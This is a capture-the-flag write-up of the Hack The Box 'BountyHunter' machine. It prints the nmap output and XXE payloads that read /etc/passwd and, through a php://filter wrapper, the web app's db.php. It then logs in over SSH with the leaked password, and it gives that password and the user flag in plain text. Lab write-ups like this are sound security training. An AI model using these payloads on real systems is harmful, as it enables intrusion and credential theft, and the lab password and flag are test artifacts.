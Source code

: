 # BountyHunter
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/613afa1f-de50-44cd-8b0c-25fa9d6abf57)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.100 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-17 02:42 PDT
Nmap scan report for 10.10.11.100
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d44cf5799a79a3b0f1662552c9531fe1 (RSA)
|   256 a21e67618d2f7a37a7ba3b5108e889a6 (ECDSA)
|_  256 a57516d96958504a14117a42c1b62344 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.64 seconds
```

1. Based from the nmap results, the machine runs a web application and opens ssh login.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d55476aa-4511-4a38-ac70-f16e5f0a568c)


2. After ran dirbuster, found several dirs and files.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/498ca093-98a1-41ed-ba0b-f68309c43caf)


3. Long story short, **portal.php** AND **db.php** could be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0f7b0715-f102-44ff-b71f-03dc15d99366)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3150f267-374d-4dd8-937c-5486ea6e4577)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a36e25bd-c459-480d-be95-2b4864740626)


#### NOTES:

```
Can't access db.php file, dunno why even though the status code is 200. 
```

4. Let's start by sending random data and intercept the request using burpsuite.

> DATA TO SEND

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ed4ca98a-cc06-410b-a04a-5113303739b7)


> RESULT IN BURP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/02bd4583-bd02-4cf9-9220-69149bc0678b)


5. Interesting, our data is url encoded (judging from %3D), let's throw that to cyberchef.

> RESULT IN CYBERCHEF

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19e5c515-9049-458e-8fc2-e1d63737a46a)


6. Interesting! Our request is formatted in xml. This should be our foothold if we can do XXE. Let's try the basic payload to test if it is vuln to XXE.

> COMMON ONE

```
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
```

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>aa</title>
	<cwe>&file;</cwe>
	<cvss>aaaa</cvss>
	<reward>80000</reward>
</bugreport>
```

7. Encode it to base64 + url. Send it afterwards.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d077e50c-6077-44f0-a540-4cd7613aace0)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3c8b5c2c-cffc-4938-9f79-bf029aa905ba)



8. Turns out, it does vulnerable to XXE.
9. Nice, this should be our foothold.
10. Noticed, we already leak the username.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0cea2752-0ecb-4f74-adee-0d95b3d43c3d)


11. Remembering that this is an Apache's server and it stores data, hence we can leak database file at `/var/www/html`. But again, for safety, we need to encode the result in base64 so there are no chars missing.

> COMMAND

```
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

> FULL PAYLOAD

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>aa</title>
	<cwe>&file;</cwe>
	<cvss>aaaa</cvss>
	<reward>80000</reward>
</bugreport>
```


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d6aafd9-41ab-466a-ba93-dad92ec14a79)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c97a03f6-1872-4e89-96be-e4b4b7bdb0c4)


12. Ok, there is an assumption of `possibilites of password reuse`. Let's try run ssh to the remote server, set the username as development, and password as --> m19RoAU0hP41A1sTsq6K.

> RESULT - WE LOGGED IN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/84736ebc-75a0-4554-b0f9-9092de21ffa7)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7204a05d-b100-4b65-bbf6-1b41f5a960ba)


## USER FLAG

```
312798040985116fe3baac54ab9f0c36
```



